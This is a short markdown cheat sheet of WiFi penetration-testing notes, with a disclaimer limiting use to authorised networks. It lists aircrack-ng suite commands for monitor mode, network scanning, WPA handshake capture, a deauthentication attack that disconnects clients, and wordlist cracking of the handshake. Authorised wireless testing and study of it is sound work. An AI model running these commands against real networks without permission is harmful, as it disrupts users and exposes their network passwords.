 # WiFi Security Testing - Educational Purpose

**LEGAL DISCLAIMER:**
- Use ONLY on networks you own or have explicit written permission to test
- Unauthorized network access is illegal in most countries
- This material is for educational and authorized penetration testing only
- Author is not responsible for misuse

**For authorized security professionals and educational purposes only**

# WiFi Pentest Notes

## turn on monitor mode
sudo airmon-ng check kill && sudo airmon-ng start wlan0

## turn off monitor mode
sudo airmon-ng stop wlan0mon && sudo systemctl start NetworkManager && sudo systemctl start wpa_supplicant

### check if works
iwconfig 

# handshake
NET-INTERFACE - example wlan0mon
DEAUTH-NO     - example 10
TARGET-BSSID  - example AA:BB:CC:DD:EE:FF
CHANNEL-NO    - example 6
CLIENT-MAC    - example BB:CC:DD:EE:FF:AA

## scan networks
sudo airodump-ng NET-INTERFACE

## capture handshake
sudo airodump-ng --bssid TARGET-BSSID -c CHANNEL-NO -w handshake NET-INTERFACE

## deauth attack (new terminal)
sudo aireplay-ng --deauth DEAUTH-NO -a TARGET-BSSID -c CLIENT-MAC NET-INTERFACE

## verify handshake
aircrack-ng handshake-01.cap

## crack password
aircrack-ng -w /usr/share/wordlists/rockyou.txt -b TARGET-BSSID handshake-01.cap

# troubleshooting
sudo rfkill unblock wifi
sudo modprobe -r rtl8xxxu && sudo modprobe rtl8xxxu
